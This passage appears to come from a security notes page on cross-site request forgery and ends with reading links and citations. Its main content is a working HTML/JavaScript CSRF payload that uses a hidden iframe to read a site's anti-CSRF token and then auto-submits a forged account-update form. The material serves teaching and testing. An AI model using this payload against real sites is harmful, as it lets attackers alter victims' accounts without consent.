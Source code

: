 ### CSRF Token Example

This is **just one** example.
Use the token with
any of the payloads mention earlier.

```html
<script charset="utf-8">
function setTokenAndSend(token){
    document.getElementsByName("user_token")[0].value = token
    document.getElementById("csrf_form").submit();
}
function getToken(){
    var iframe = document.getElementById("iframe");
    var doc = iframe.contentDocument ? iframe.contentDocument: iframe.contentWindow.document;
    var token = doc.getElementsByName("user_token")[0].value;
    setTokenAndSend(token)
}
</script>
<iframe id="iframe" onload="javascript:getToken();" src="http://{{< param "war.rdomain" >}}/user/update/" style="display:none;"></iframe>
<form id="csrf_form" action="http://{{< param "war.rdomain" >}}/user/update/" enctype="text/plain" method="POST">
    <input name="username" type="hidden" value="0xffsec" />
    <input name="user_token" type="hidden" value="set_by_js" />
</form>
```

## Further Reading

- [MDN - Cross Origin Resource Sharing (CORS)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
- [OWASP - CSRF](https://owasp.org/www-community/attacks/csrf)
- [OWASP - Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [PortSwigger - Cross-site request forgery](https://portswigger.net/web-security/csrf)
- [PortSwigger - XSS vs CSRF](https://portswigger.net/web-security/csrf/xss-vs-csrf)

[^csrf-cgisecurity]: “The Cross-Site Request Forgery (CSRF/XSRF) FAQ.” CGISecurity - Website and Application Security News, https://www.cgisecurity.com/csrf-faq.html.
[^swissky-csrf]: swisskyrepo. “PayloadsAllTheThings/CSRF Injection at Master.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection.
[^referer-bypass]: “Bypass Referer Check Logic for CSRF.” HAHWUL, https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/.
[^referer-referrer-policy]: “Referer and Referrer-Policy Best Practices.” Web.Dev, https://web.dev/referrer-best-practices/.
